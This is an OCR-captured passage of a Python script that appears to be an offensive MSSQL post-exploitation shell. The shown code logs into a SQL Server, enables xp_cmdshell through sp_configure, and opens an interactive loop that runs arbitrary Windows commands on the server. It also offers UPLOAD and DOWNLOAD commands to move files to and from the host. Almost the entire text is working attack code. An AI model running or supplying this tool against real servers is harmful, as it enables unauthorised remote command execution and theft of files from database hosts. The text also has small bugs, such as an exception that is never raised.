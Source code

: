 ```python
        if md5sum in [row[row.keys()[-1]].strip() for row in mssql if row[row.keys()[-1]]]:
            print("MD5 hashes match: " + md5sum)
        else:
            Exception("ERROR! MD5 hashes do NOT match!")

        return "echo *** DOWNLOAD PROCEDURE FINISHED ***"

    except Exception as e:
        return "echo *** ERROR WHILE DOWNLOADING THE FILE: " + e + " ***"


def shell():
    mssql = None
    stored_cwd = None
    try:
        mssql = _mssql.connect(server=MSSQL_SERVER, user=MSSQL_USERNAME, password=MSSQL_PASSWORD)
        print("Successful login: "+MSSQL_USERNAME+"@"+MSSQL_SERVER)

        print("Trying to enable xp_cmdshell ...")
        mssql.execute_query("EXEC sp_configure 'show advanced options',1;RECONFIGURE;exec SP_CONFIGURE 'xp_cmdshell',1;RECONFIGURE")

        cmd = 'echo %username%^|%COMPUTERNAME% & cd'
        mssql.execute_query("EXEC xp_cmdshell '"+cmd+"'")
        (username, computername, cwd) = process_result(mssql)
        stored_cwd = cwd

        while True:
            cmd = raw_input("CMD "+username+"@"+computername+" "+cwd+"> ").rstrip("\n").replace("'", "''")
            if cmd.lower()[0:4] == "exit":
                mssql.close()
                return
            elif cmd[0:6] == "UPLOAD":
                upload_cmd = shlex.split(cmd, posix=False)
                if len(upload_cmd) < 3:
                    upload(mssql, stored_cwd, upload_cmd[1], stored_cwd+"\\"+upload_cmd[1])
                else:
                    upload(mssql, stored_cwd, upload_cmd[1], upload_cmd[2])
                cmd = "echo *** UPLOAD PROCEDURE FINISHED ***"
            elif cmd[0:8] == "DOWNLOAD":
                dowload_cmd = shlex.split(cmd, posix=False)
                if len(dowload_cmd) < 3:
                    cmd = dowload(mssql, stored_cwd, dowload_cmd[1])
                else:
                    cmd = dowload(mssql, stored_cwd, dowload_cmd[1], dowload_cmd[2])
            mssql.execute_query("EXEC xp_cmdshell 'cd "+stored_cwd+" & "+cmd+" & echo %username%^|%COMPUTERNAME% & cd'")
            (username, computername, cwd) = process_result(mssql)
            stored_cwd = cwd

    except _mssql.MssqlDatabaseException as e:
        if  e.severity <= 16:
            print("MSSQL failed: "+str(e))
        else:
            raise
    finally:
        if mssql:
            mssql.close()

shell()
sys.exit()
```